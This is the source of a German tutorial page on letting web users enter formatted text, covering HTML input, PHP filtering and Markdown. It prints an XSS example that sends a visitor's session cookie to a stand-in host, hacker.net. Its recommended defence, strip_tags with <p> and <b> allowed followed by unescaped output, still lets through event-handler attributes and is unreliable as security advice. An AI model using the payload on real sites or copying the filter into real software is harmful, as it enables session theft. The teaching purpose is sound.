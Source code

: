 ```yaml
---
title: HTML erlauben
order: 50
---
```


Welche Arten gibt es, die Formatierung von eingegeben Texten doch zu erlauben?
Ohne dass dabei Sicherheitsprobleme auftreten.


## HTML

Wie kann man HTML-Tags eingeben, abspeichern, und als HTML-Tags
wieder anzeigen? Welche Probleme können dabei auftreten?

### Gefahren

Zuerst eine Warnung: Die Anzeige von HTML das von Fremden eingegeben wurde ist
gefährlich! Dazu zwei Beispiele: 


Gustav Gastfreund baut auf unter der Adresse http//gustav.at ein Gästebuch in dem BesucherInnen
beliebiges HTML abspeichern können. Herr Lauscher trägt dort ein Bild ein:

<htmlcode>
<img src="http://lauscher.net/bild.php?woher=gaestebuch_mmt" alt="harmloses bild">
</htmlcode>

Das Bild wird also nicht von Webserver gustav.at geladen, sondern vom Webserver von
Herrn Lauscher. Und dort wird gleich ein php-Programm zum Erzeugen des Bildes
aufgerufen. D.h. Wenn Bernhard Besucher das Gästebuch ansurft
dann sieht Herr Lauscher einen Zugriff auf bild.php auf seinem Server, und kann 
das mit-loggen. Falls Herr Lauscher die Gästebuch-Besucher schon
kennt (ein Cookie bei ihnen gesetzt hat) kann er die Leute auch identifizieren.

Gustav Gastfreunt  hat Herrn Lauscher also die Möglichkeit gegeben sehr viel über die
BesucherInne zu erfahren. 

So etwas ähnliches passiert z.B. wenn Sie Google
Analytics in Ihre Webseite einbinden um Zugriffs-Statistiken zu erstellen:
Google erfährt von jedem Zugriff auf Ihre Seite, Google kennt viele
BesucherInnen schon (weil Sie bei gmail.com eingeloggt sind oder von einer
vorhergehenden Suche noch ein Cookie haben.) 

§

Im zweiten Beispiel gibt Frau Hacker neben einem Bild noch etwas Javascript ins
Gästebuch ein:

<htmlcode>
Hallo Welt 

<img src="http://hacker.net/bild.php" alt="harmlos" id="hack_tool" />
<script>
document.getElementById("hack_tool").src += "?c=" + document.cookie;
</script>
</htmlcode>

Mit der einen Zeile Javascript wir das Cookie an die URL des Bildes angefügt, das Ergebnis ist z.B:

<htmlcode>
<img id="hack_tool" alt="harmloses bild" 
src="http://hacker.net/bild.php?keks=PHPSESSID=6b454e966f9fc9b9a9d5126ffb076115"/>
</htmlcode>

So kann Frau Hacker das Cookie einer BesucherIn des Gästebuchs entwenden. Sie
kann nun das Cookie verwenden um als eingeloggter User Ihre Seite zu benützen!

Was lernen wir daraus? 

Niemals, niemals, niemals zulassen, dass Fremde Javascript in Ihre Site einspeisen können!

§

Noch hat unsere Applikation dieses Problem nicht: Wenn Frau Hacker Ihren Code
z.B. in das Profil einer Person eingibt wir der Code htmlescaped angezeigt und
„wirkt nicht“:

![Eingegebener HTML+Javascript-Code wird escaped und dargestellt](/images/html-escaped.png)



### Eingabe von HTML

Wenn Sie sich entscheiden die Eingabe von HTML zu zu lassen, 
dann können Sie das mit einer einfachen `textarea` tun.  

Mit einem Javascript-Editor wie TinyMCE wird die Eingabe aber sehr
vereinfacht: TinyMCE verwandelt eine normale Textarea in einen wysiwyg-Editor:

![Normale Textarea (oben) kann mit TinyMCE in einen wysiwyg-Editor (unten) verwandelt werden](/images/tinymce.png)


### Abspeichern von HTML

Bevor wir das eingegeben HTML abspeichern, wollen wir es
streng kontrollieren: Im Profil sollen nur die HTML-Tags
`<p>` und `<b>` verwendet werden können, mehr nicht. 

Bevor die Daten also in dei Datenbank kommen werden
alle anderen Tags entfernt:

<php>
$description = strip_tags( $_POST['description'], "<p><b>" );
</php>

§

Nun können Sie auch die Ausgabe des Profils umstellen und auf das Escapen 
der `description` verzichten:

<php caption="Ausgabe von Daten aus der Datenbank mit html-escaping">
$username    = htmlspecialchars( $person->username     );
$firstname   = htmlspecialchars( $person->firstname    );
$surname     = htmlspecialchars( $person->surname      );
$description = strip_tags( $person->description,  "<p><b>" );

echo <<<EOM
  <p>$anrede $vorname $nachname hat insgesamt 
  $no Werke in dieser Datenbank.
  $ersie hat den Usernamen $username.</p>

  <div>$description</div>
EOM;
</php>


## Markdown

Markdown ist eine sehr simple Formatierungs-Sprache - viel einfacher als HTML.

<plain caption="Beispiel für einen Text in Markdown">
  ### Abspeichern von HTML

  Bevor wir das eingegeben HTML abspeichern, wollen wir es
  streng kontrollieren: Im Profil sollen nur die HTML-Tags
  `<p>` und `<b>` verwendet werden können, mehr nicht. 
</plain>

Dieses Format wird in der Datenbank gespeichert. Erst bei
der Ausgabe als HTML wird Markdown in HTML verwandelt.


### Markdown eingeben

Für Markdown gibt es wieder eigene editoren, z.B. https://simplemde.com/

![Screenshot von SimpleMDE](simplemde.png)



### Markdown darstellen

Mit einem "Markdown Parser" wird das Markdown-Format gelesen und
in HTML übersetzt:

<php>
include 'Parsedown.php';
$Parsedown = new Parsedown();
echo $Parsedown->text('## Hello HTML!');
</php>



